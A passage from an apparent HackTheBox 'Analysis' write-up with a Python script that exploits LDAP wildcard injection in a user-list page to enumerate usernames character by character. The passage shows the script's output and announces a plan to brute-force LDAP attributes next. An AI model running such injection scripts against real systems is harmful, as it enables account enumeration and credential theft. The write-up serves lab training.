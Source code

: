 ```python
    p2 = log.progress("Currently finding username")
    p3 = log.progress("Finded usernames")
    async with aiohttp.ClientSession() as session:
        for char in chars:
            
            first_url = f"http://internal.analysis.htb/users/list.php?name={char}*"
            r = await fetch(session, first_url)
            end_loop = False
            if "CONTACT_" not in r:
                result = char 
                while True:
                    for char in chars:
                        
                        url = f"http://internal.analysis.htb/users/list.php?name={result}{char}*"
                        r = await fetch(session,url)
                        if "CONTACT_" not in r:
                            result += char
                            break
                        else:
                            if char == chars[-1]:
                                end_loop = True
                                results.append(result)
                                p3.status(results)
                                break
                        p1.status(f"{[*chars].index(char) + 1}/{len(chars)}")
                        p2.status(result)
                    if end_loop:
                        break            
if __name__ == '__main__':
    
    asyncio.run(makeRequests())
```

Now run the script and we are gived valid users:

```bash
❯ python3 ldap_injection.py
[◒] Brute status: 36/36
[d] Currently finding username: technician
[0] Finded usernames: ['amanson', 'badam', 'jangel', 'lzen', 'technician']
```

Now let's brute all the valid fields in LDAP to see the interesting ones and then see the value for each user.

For that, 

I will modify the script for that we can pass the thing that we wanna brute in the script. Also I will do some handling when the characters `*`, `(`, `)`, `&` and `#` because if there is that character in the request, it will behave bad:
